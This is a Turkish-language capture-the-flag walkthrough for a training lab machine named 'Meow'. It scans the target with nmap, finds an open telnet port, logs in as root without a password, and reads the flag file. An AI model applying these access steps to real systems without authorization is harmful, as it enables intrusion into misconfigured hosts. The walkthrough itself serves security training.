 ```yaml
---
search:
  boost: 0.5
---
```


# Meow

!!! info "Target IP Address"

    10.129.146.175

Hedef makine için Nmap taraması gerçekleştir:

```bash
nmap 10.129.146.175
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-10 19:17 +03
Nmap scan report for 10.129.146.175
Host is up (0.16s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 14.22 seconds
```

Telnet ile hedefe bağlan ve ardından `root` kullanıcısı olarak giriş yap (telnet bağlantısında `root` kullanıcısı için parola istenmez):

```bash
telnet 10.129.146.175
```

```text title="Output"
Trying 10.129.146.175...
Connected to 10.129.146.175.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 10 Jan 2024 04:18:32 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.146.175
  IPv6 address for eth0: dead:beef::250:56ff:feb0:e22b

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
